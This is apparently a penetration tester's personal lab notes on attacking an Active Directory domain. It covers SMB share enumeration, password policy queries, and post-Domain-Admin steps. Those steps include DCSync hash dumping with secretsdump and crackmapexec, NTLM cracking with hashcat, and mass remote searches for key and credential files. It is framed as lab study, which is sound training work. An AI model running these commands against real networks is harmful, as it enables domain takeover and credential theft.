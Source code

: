 Add `--pass-pol` to `crackmapexec smb`.

TODO I didn't get it to work
```powershell
#An example said
Import-Module ActiveDirectory
Get-ADDefaultDomainPasswordPolicy
```

```powershell
Import-Module .\PowerView.ps1
(Get-DomainPolicy)."SystemAccess" #Password policy
```

- **What to do with big SMB share?** \
If it's a default share or if it ends with $ you can probably ignore it.
Perform a recursive ls and parse locally to find interesting filenames.
```bash
smbclient //192.168.224.70/C$ -U MEDTECH.COM/$(<"users.txt")%$(<"passwords.txt") -c 'recurse;ls' > tmp_share.txt
```

It is also possible to mount it locally, but IDK how to if it's on internal network
```bash
mount -t cifs -o domain=MEDTECH.COM,username=wario,password='Mushroom!',vers=2.1 //172.16.223.10/C$ share
```

- **I got DA what should I do? (Domain Admin)** \

1. Pwn all domain-joined machines using DA creds.. they should work throughout the domain
2. Try dcsync attack with secretsdump -> crack Kerberos NTLM hash or use in golden ticket attack

```bash
# Dump all users
impacket-secretsdump  MEDTECH/leon:"rabbit:)"@172.16.194.10

# OR similarily use this command
crackmapexec smb 172.16.194.10 -u leon -p "rabbit:)" -d "MEDTECH.COM" --ntds

# Crack
# Use the second hex value as hash
# Administrator:500:aad3b435b51404eeaad3b435b51404ee:c33b5cf9fa1b1bb4894d4a6cd7c54034:::
hashcat -m 1000 c33b5cf9fa1b1bb4894d4a6cd7c54034 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule -O
```
3. Similarly we could use vshadow.exe to get all AD hashes (Shadow copies) -> [hacking escalation active directory](escalation/active-directory.md)
4. Run commands on every machine, e.g.
```bash
crackmapexec smb 172.16.194.82-83 172.16.194.10-13 -u leon -p "rabbit:)"  -d "MEDTECH.COM" -X 'gci -Path C:\Users -Include *.kdbx,*.ppk,id_*sa*,*.txt,*.ini,*.pdf,*.xls,*.xlsx,*.doc,*.docx,*.ovpn -File -Recurse -ErrorAction SilentlyContinue -Force'
# TODO use sls to print both name and contents (for text files)?
crackmapexec smb 172.16.194.82-83 172.16.194.10-13 -u leon -p "rabbit:)"  -d "MEDTECH.COM" -X 'gci -Path C:\Users -Include *.kdbx,*.ppk,id_*sa*,*.txt,*.ini,*.pdf,*.xls,*.xlsx,*.doc,*.docx,*.ovpn -File -Recurse -ErrorAction SilentlyContinue  -Force | type'
crackmapexec smb 172.16.194.82-83 172.16.194.10-13 -u leon -p "rabbit:)"  -d "MEDTECH.COM" -X 'netstat -ano' > netstat_pwned_machines.txt
```
